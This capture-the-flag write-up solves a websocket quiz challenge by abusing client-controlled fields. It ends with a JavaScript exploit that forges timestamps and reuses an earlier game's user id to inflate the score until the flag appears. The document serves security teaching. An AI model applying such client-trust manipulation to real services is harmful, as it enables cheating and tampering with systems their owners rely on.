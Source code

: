 ## Solve Process
This is a website which makes use of websocket. Upon entering the website, we are greeted with this kahoot rip off.
![image110](/static/writeups/photos/image110.png) 

We take a look at the source code to check what the goal of the challenge was. It seems that the goal of the challenge is to get **\>= 10000 points (since there are 10 questions)**
```javascript
sock.send(b64encode(json.dumps({
    'scores': scores,
    'end': True,
    'message': f'omg congrats, swiftie!!! {flag}'
    if get_score(scores, room_id, data['id']) >= 1000 * len(kahoot['questions'])
    else 'sucks to suck broooooooo'
}).encode()))
```

The following is how points are awarded. A base of 1000 points is awarded, but that score is reduced over time by 50 each second, to a maximum of 500 points reduction.
```python
if data['answer'] == q['answer']:
    edit_score(scores, room_id, data['id'],
        get_score(scores, room_id, data['id']) + 1000 +
        max((send_time - recv_time) * 50, -500)
    )
```

From the following lines, we can see that the send\_time and answer is both sent from the client. What if we just set the send a send\_time greater than that of recv\_time, such that **max((send\_time-recv\_time) \* 50,-500)** is positive? That theoretically would get us enough points. 
```python
data = sock.receive()
data = json.loads(b64decode(data).decode())

send_time = data['send_time']
recv_time = time()
```

Unfortunately, this line of code prevents us from sending a send\_time that is greater than the current attack. I’ve seen people do a timing attack, due to the fact that **recv\_time** is generated **before this time()** is generated, so it is theoretically possible to get send\_time to be slightly greater than recv\_time. 
```python
if (scores := get_room_scores(room_id)) is not None and send_time >= time():
    sock.send(b64encode(json.dumps({
        'scores': scores,
        'end': True,
        'message': '???'
    }).encode()))
    return
```

Taking a closer look at edit\_score and get\_score function, we can see that it takes both a **room\_id** and a **uid**. Both the **uid** and **room\_id** are sent by the client. The UID is generated randomly on the front end, and presumably meant to prevent users from simply refreshing a room to earn more points.
```python
def edit_score(scores, room_id, uid, new_score):
    for i, score_data in enumerate(scores):
        if score_data[1] == uid:
            scores[i][2] = new_score
            return scores

    all_scores.append([room_id, uid, new_score])
    scores.append(all_scores[-1])
    return scores

...
def get_score(scores, room_id, uid):
    for score_data in scores:
        if score_data[0] == room_id and score_data[1] == uid:
            return score_data[2]

    return 0
```

**However**, since we can control the UID, what if we just manually set the UID to be the same as that of the previous game’s UID, to add to the score of the previous game? This is the approach we will be using.

```python
if i == 0:
    edit_score(scores, room_id, data['id'], 0)
```
One small problem we encounter is that the corresponding **room\_id and uid score** is reset to 0 each time we connect to the socket.

Since the server uses the uid we issue for the current round, we simply need to send a random uid for the first round, and for subsequent rounds, set the uid to be that of the one we choose.

## Code  
First, play the kaboot game normally. Using the uid given for that game, connect to the socket and run the game again. In the first round a random uid should be send  
```javascript
let i \= 0;  
newsocket2 \= new WebSocket(\`wss://${location.href.split('//', 2)\[1\]}\`);  
let answers \= \[  
    1,3,1,1,3,3,2,3,2,4  
\]  
newsocket2.addEventListener('message', async e \=\> {  
    const text \= await e.data.text();  
  i\++;  
  if (i \== 1) {  
    return  
  }

  console.log(text);  
  const epochTimeSeconds \= Date.now() / 1000;  
  if (i \== 2) var newid \= "fun"  
  else var newid \= '6d0cfecb-b0e3-c5eb-adf2-cde7580b16c1'  
  console.log(JSON.stringify({  
        id: newid,  
        answer: answers\[i\-2\],  
        send\_time: epochTimeSeconds\+1  
    }))  
  newsocket2.send(btoa(JSON.stringify({  
        id: newid,  
        answer: answers\[i\-2\],  
        send\_time: epochTimeSeconds\+1  
    })));  
});
```
![image118](/static/writeups/photos/image118.png)  
The last message sent is the base64 encoded data, which should contain our flag  
![image119](/static/writeups/photos/image119.png)

## Extra Notes  
The websocket only allows 1 connection at a time. Ensure you finish the kaboot game first before you connect to the websocket again.
